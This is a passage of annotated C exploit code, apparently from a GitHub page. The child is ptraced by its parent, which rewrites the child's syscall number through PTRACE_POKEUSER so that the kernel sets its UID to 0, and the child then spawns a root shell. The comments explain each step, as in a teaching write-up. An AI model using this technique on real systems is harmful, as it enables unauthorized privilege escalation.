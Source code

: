             pid_t child;
            child = fork();
            /*
              We fork two processes. The parent will ptrace the child, and
              the child will execute the `int 0x80` syscall.
             */
            if(child == 0) {
                    ptrace(PTRACE_TRACEME, 0, NULL, NULL);
                    kill(getpid(), SIGSTOP);
                    /*
                      We ask for someone to trace us, and then signal
                      ourselves, which causes us to wait for our parent to
                      attach via `ptrace`.
                     */
                    __asm__("movl $0, %ebx\n\t"
                            "int $0x80\n");
                    /*
                      We then make an (arbitrary) syscall via int 0x80,
                      with %ebx set to 0. Linux's system call convention
                      stores the first argument in %ebx, so if all goes
                      right, when our parent mucks with %rax, this will
                      result in the kernel calling set_user(0), setting
                      our current UID to 0.
                    */

                    execl("/bin/sh", "/bin/sh", NULL);
                    /* Once we have root, we exec a shell. */
            } else {
                    wait(NULL);
                    ptrace(PTRACE_SYSCALL, child, NULL, NULL);
                    wait(NULL);
                    ptrace(PTRACE_POKEUSER, child, offsetof(struct user, regs.orig_rax),
                            (void*)offset);
                    ptrace(PTRACE_DETACH, child, NULL, NULL);
                    wait(NULL);
                    /*
                      In the parent we need to do is `wait` for the child
                      to stop, allow it to advance until the next syscall,
                      use `PTRACE_POKEUSER` to poke `offset` into `%rax`,
                      and then detach and let it run.
                     */
            }
    }
